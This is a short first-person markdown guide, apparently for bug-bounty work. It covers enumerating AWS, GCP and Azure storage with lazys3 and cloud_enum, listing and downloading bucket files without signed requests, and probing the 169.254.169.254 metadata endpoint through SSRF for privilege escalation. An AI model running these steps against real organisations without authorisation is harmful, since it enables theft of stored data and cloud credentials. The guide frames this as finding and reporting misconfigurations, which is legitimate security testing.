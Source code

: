# ☁️ How I Do Cloud Hacking

This guide covers how I **enumerate, discover, and exploit misconfigured cloud assets**, specifically focusing on AWS, GCP, and Azure. I use `lazys3` and `cloud_enum` to uncover **exposed storage buckets and cloud resources**.

**For tool installation, refer to [INSTALLATION_cloud_hacking.md](installation_cloud_hacking.md).**

---

## **1️⃣ Enumerating AWS S3 Buckets with `lazys3`**
I use `lazys3` to find **misconfigured S3 buckets** belonging to a target.

### **Step 1: Run `lazys3`**
```bash
python3 lazys3.py targetcompany -k YOUR_AWS_KEY -s
```
✅ **What This Does?**
- Searches for **publicly accessible S3 buckets**.
- Identifies misconfigured **ACLs (read/write access).**
- Checks for **exposed files and backups.**

### **Step 2: Check If the Bucket Allows Listing**
```bash
aws s3 ls s3://targetcompany-bucket --no-sign-request
```
✅ If **listing is allowed**, I check for **sensitive files**.

### **Step 3: Try to Download Files**
```bash
aws s3 cp s3://targetcompany-bucket/backup.zip . --no-sign-request
```
✅ If files can be downloaded, **report the misconfiguration!**

---

## **2️⃣ Enumerating AWS, GCP, and Azure with `cloud_enum`**
I use `cloud_enum` to find **cloud assets** across AWS, GCP, and Azure.

### **Step 1: Run `cloud_enum` Against the Target**
```bash
python3 cloud_enum.py -k targetcompany --scan
```
✅ **What This Does?**
- Searches for **S3, GCP, and Azure storage buckets**.
- Finds **Cloudfront/CDN assets**.
- Identifies **public and misconfigured storage resources.**

### **Step 2: Check Bucket Permissions**
Once I identify cloud storage buckets, I test for **misconfigured permissions**.

✅ **For AWS S3 Buckets:**
```bash
aws s3 ls s3://targetcompany-public --no-sign-request
```
✅ **For Azure Blobs:**
```bash
az storage blob list --container-name targetcontainer --account-name targetcompany
```
✅ **For GCP Buckets:**
```bash
gsutil ls -r gs://targetcompany-public
```

### **Step 3: Test for Metadata Exposure (SSRF to Cloud Metadata)**
If a web application is linked to the cloud, I check for **cloud metadata exposure via SSRF.**

```bash
curl http://169.254.169.254/latest/meta-data/
```
✅ If I get a **response from the cloud metadata service**, I attempt privilege escalation.

---

## **🚀 Summary of My Cloud Hacking Approach**
| **Tool** | **Purpose** |
|---------|-------------|
| `lazys3` | Finds AWS S3 buckets and misconfigured permissions |
| `cloud_enum` | Scans AWS, GCP, and Azure for exposed cloud assets |
| `aws cli` | Checks S3 bucket access & downloads files |
| `az cli` | Tests Azure storage permissions |
| `gsutil` | Checks GCP storage access |
| `curl` | Exploits cloud metadata services via SSRF |

✅ **By using `lazys3` and `cloud_enum`, I can efficiently discover misconfigured cloud resources and report security risks!** 🚀


